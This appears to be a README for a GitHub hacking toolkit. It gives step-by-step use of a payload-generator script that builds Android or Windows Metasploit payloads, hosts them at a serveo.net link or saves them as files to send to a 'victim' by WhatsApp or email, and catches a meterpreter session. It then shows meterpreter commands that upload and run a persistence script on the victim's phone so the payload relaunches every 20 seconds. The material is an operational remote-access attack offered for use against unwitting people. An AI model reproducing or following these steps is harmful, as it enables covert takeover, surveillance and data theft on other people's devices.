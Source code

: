 Hello Visitor!!!

Here is a quick guide how to use it:

[1] Run the payload generator script by simply commanding :
    # bash Payload-Generator.sh
    Now you need to enter your active serveo tcp port
    Now enter your Payload name
    Now you can see two options Android or Windows
    Once ypu have selected one you can see two more options
    Web Payload and Simple Payload
    Once selecting the Web Payload your payload will be directly transfered
    to a website called :
    # https://payload.serveo.net/(Your payload name).apk
    Send this link to victim and he will download the payload

    Once you selected the Simple Payload a payload will be created in your
    device internal storage and you can send this payload to victim device
    using whatsapp or email or any other sources.

[2] Run your hack terminal by commanding :(If using web payload)
    # bash Msfconsole-attack.sh
    Once you have entered the command then amke sure you follow all the 
    steps over here before the payload is installed in the victim device
    Firstly selected the platform and then enter your serveo port
    The the rest process is automated no worry
    Then intsall the payload in victim and you will see something 
    like this on your terminal::
    meterpreter >
    If so..
    Bingo!! You have sucessfully hacked into victim phone 
    Check out the commands.txt to perform operation in victim device

[3] Now once you are in the system what if u want to access the victim
    anytime once you have exitted the meterpreter session..
    So here we use the persistent payload script.
    Once you have open the meterpreter session just fllow this..
    # meterpreter> cd/storage/emulated/0/Android/data
    By this you will be in the internal storage of the victim were the
    cache files of app are stored.Then do this...
    # meterpreter> upload $HOME/Metasploit-Hacking/persistent.sh
    By this you will upload the script to victim device
    This script will open the payload after 20 seconds again and again..
    Then run the script in victim by this command ..
    #meterpreter> shell
    #meterpreter> cd /storage/emulated/0/Android/data
    #meterpreter> sh persistent.sh
    Done now you can access the device anytime once u start exploit
    on the same port and host.
